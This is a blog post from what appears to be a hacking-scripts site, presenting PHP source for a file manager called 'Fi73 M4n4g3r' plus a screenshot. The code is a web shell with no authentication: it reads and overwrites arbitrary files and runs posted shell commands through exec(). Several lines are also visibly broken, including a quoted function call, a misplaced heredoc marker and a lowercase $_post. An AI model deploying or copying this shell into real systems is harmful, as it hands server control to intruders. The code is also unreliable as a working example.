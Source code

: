 ```yaml
---
id: 311
title: Fi73 M4n4g3r script
author: admin
layout: post
guid: http://hackingscripts.com/?p=311
permalink: /fi73-m4n4g3r-script/
categories:
  - PHP
tags:
  - file manager
  - PHP
---
```

Fi73 M4n4g3r script


### Fi73 M4n4g3r script source code

{% highlight php linenos %}<?php
$file = $error = $file_content = "";
if(isset($_POST["file"]) and (isset($_POST["modify"]))){

	$file = $_POST["file"];
	if(! file_exists("$file")) 
	{
		$error = "File $file doesnt exist!";
	}
	else
	{
		$file_content = "<<<_END";
		echo "<PRE>";
		echo "file_get_contents($file)";
		echo "</PRE>";
		_END;
	}
}
if(isset($_POST["file"]) and (isset($_POST["modify"])))
{
	$file = $_POST["file"];
	$text = $file_content = $_POST["modify"];
	$fh = fopen("$file" , "r+");
	if(! fwrite($fh , $text))
	{
		$error = "File $file couldnt be overwritten!";
	}
	else $error = "file $file successfully overwritten!";
	fclose($fh);
}
if(isset($_post["cmd"]))
{
	exec($cmd, $output, $status);
	if($status) echo "command failed!";
	else
	{
		echo "<pre>";
	foreach ($output as $line) echo "$line \n";
	}
}
echo <<<_END
<HTML>
<HEAD>
<TITLE>File manager</TITLE>
</HEAD>
<BODY>
<CENTER><H3>Fi73 M4n4g3r</H3></CENTER> 
$error <BR />
<form method = "post" action = "modifier.php">
<input type = "text" name = "file" />
<input type = "submit" value = "Get File"/>
</form>
<form method = "post" action = "modifier.php">
<textarea name = "modify" wrap = "off" cols = "15" rows = "20">
$file_content </textarea>
<input type = "hidden" name = "file" value = "$file" />
<input type = "submit" value ="save changes" />
</form>
<form method ="post" action = "modifier.php">
<input type = "text" name = "cmd" />
<input type = "submit" value = "execute command"/>
</form>
</CENTER>
</BODY>
</HTML>
_END;
?>
{% endhighlight %}

A screenshot of this very plain and boring looking script:<figure id="attachment_390" style="width: 537px;" class="wp-caption aligncenter">

[<img src="{{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png" alt="Fi73 M4n4g3r screenshot" width="537" height="557" class="size-full wp-image-390" />][1]<figcaption class="wp-caption-text">Fi73 M4n4g3r screenshot</figcaption></figure>

 [1]: {{ site.baseurl }}/wp-content/uploads/2014/03/fi73-M4n4g3r.png